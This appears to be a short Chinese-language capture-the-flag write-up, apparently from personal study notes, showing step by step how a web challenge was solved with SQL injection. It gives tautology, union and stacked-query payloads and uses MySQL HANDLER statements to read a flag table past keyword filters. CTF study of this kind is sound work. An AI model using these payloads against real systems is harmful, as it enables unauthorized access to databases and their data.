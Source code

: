 ![[Pasted image 20221104194310.png]]
```sql
1' or 1=1 or '1
```
![[Pasted image 20221104194336.png]]
```sql
1' union select 1,2#
```
![[Pasted image 20221104194429.png]]
被过滤了一堆关键字呜呜呜
搜索得知这题关键为堆叠注入
```sql
1'; show databases#
```
![[Pasted image 20221104194636.png]]
```sql
1'; show tables#
```
![[Pasted image 20221104200143.png]]
```sql
1'; show columns from FlagHere#
```
![[Pasted image 20221104200444.png]]
接下来是学习时间（悲
![[Pasted image 20221104201132.png]]
```sql
0';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```
![[Pasted image 20221104201342.png]]
有点像文件句柄，学到了呜呜呜
#Web #SQL注入 #堆叠注入 